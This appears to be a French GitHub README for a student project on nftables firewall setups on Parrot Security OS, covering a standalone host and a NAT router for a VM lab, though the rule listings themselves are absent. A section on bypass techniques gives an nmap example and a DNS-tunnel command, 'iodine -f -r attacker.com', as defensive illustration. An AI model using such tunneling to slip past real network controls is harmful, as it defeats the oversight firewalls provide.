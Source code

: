 ## Objectif du projet

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 — nftables (avancé, machine seule)**
- **Niveau 7 — nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Le pare-feu **UFW** est installé par défaut mais désactivé → à activer/configurer par l’utilisateur.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** et à la virtualisation (VirtualBox, VMware).




---

## Niveau 6 (standalone, machine protégée)

## Niveau 7 (NAT / Lab, routeur VM)

---

# 📌 Explications

- **Niveau 6** → protège uniquement ta machine personnelle.
- **Niveau 7** → transforme ta machine en pare-feu + routeur pour un réseau virtuel.

📸 Exemple de capture d’écran (nftables actif en niveau 6) :
![Capture d’écran Niveau 6](images/niveau6.png)

📸 Exemple de capture d’écran (nftables NAT/routeur niveau 7) :
![Capture d’écran Niveau 7](images/niveau7.png)

---

# 🖥️ Démonstrations

➡️ **Application des règles** :

---
# ⚠️ Limites et bonnes pratiques

Un pare-feu réduit la surface d’attaque, mais **il ne protège pas de tout**.
Un attaquant expérimenté peut toujours tenter de :

- Passer par un service autorisé (ex : **SSH, HTTPS**).
- Exploiter une **faille applicative**.
- Utiliser du **tunneling** (DNS, HTTPS).
- Contourner via **IPv6** si mal configuré.

👉 **Conclusion :**
Un firewall seul n’est pas suffisant.
Il doit être combiné avec :
- un **IDS/IPS** (Snort, Suricata),
- du **monitoring** (logs, SIEM),
- et des **bonnes pratiques** : MFA, mises à jour régulières, segmentation réseau, durcissement système.

---

# Conclusion
Parrot OS est une alternative solide à Kali, plus légère et orientée vie privée.

Les niveaux 6 et 7 démontrent deux cas concrets :

🔒 Protection avancée d’une machine individuelle.

🌐 Mise en place d’un routeur/firewall complet pour un lab réseau.

Ce projet illustre comment un firewall évolue : de simple protection → à composant réseau avancé.

⚡ Technologies utilisées
Parrot OS

nftables

VirtualBox



📌 Auteur : Virginie Lechene

# ⚠️ Comment un hacker pourrait contourner


Même avec un firewall avancé (niveaux 6 et 7), il existe des techniques de contournement :

Exploiter les ports ouverts (ex : nmap -p 443 <cible> → scanner en HTTPS).

Tunneling DNS (ex : iodine → transformer DNS en canal de communication).

Exploiter des failles applicatives derrière un port autorisé.



👉 C’est pourquoi on combine firewall + IDS/IPS + monitoring.

🔹 Exemple — Tunnel DNS (contournement)


Comme le port 53 (DNS) est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

👉 Cela permet de faire passer du trafic complet dans des requêtes DNS → contournant le firewall.

🚀 Différence entre Niveau 6 et Niveau 7


🔹 Niveau 6 : Firewall personnel
Ne protège que ta machine locale.

Politique stricte : tout bloqué sauf quelques services.

Idéal pour un poste de travail ou serveur isolé.



👉 Exemple : ton PC sous Parrot OS n’accepte que le trafic web et SSH.

🔹 Niveau 7 : Firewall réseau
Ta machine devient un routeur + firewall.

Protège un lab ou réseau interne entier.

Ajoute le forwarding + NAT.

Fonctionne comme un firewall d’entreprise (pfSense, Fortinet, iptables/nftables).



👉 Exemple : une VM interne passe par ton firewall pour sortir → le firewall contrôle/log tout le trafic.




